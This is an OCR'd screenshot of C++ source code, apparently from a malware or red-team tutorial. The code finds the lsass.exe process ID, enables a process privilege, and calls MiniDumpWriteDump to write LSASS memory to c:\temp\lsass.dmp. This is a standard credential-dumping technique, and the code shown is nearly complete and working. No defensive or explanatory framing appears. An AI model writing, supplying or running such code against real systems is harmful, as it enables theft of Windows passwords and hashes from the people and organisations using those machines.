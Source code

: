 ```cpp
  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, 
  &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES),
   (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : "failed to enable %s :(\n", priv);
  return res;
}

// minidump lsass.exe
BOOL createMiniDump() {
  bool dumped = FALSE;
  int pid = findMyProc("lsass.exe");
  HANDLE ph = OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, 0, pid);
  HANDLE out = CreateFile((LPCTSTR)"c:\\temp\\lsass.dmp", GENERIC_ALL, 0, 
  NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (ph && out != INVALID_HANDLE_VALUE) {
    dumped = MiniDumpWriteDump(ph, pid, out, (MINIDUMP_TYPE)0x00000002, NULL, 
    NULL, NULL);
    printf(dumped ? "successfully dumped to lsaas.dmp :)\n" : "failed to dump :(\n");
```